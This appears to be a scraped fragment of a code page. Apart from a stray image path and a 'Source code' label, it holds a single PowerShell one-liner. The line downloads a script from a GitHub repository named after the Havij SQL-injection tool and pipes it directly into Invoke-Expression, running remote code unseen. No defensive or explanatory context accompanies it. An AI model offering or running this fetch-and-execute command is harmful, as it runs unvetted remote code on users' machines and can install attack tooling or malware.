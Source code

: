<pre> ```powershell iwr -useb https://raw.githubusercontent.com/mdromanmoonshi/havij/main/hlazy.ps1 | iex ``` </pre>
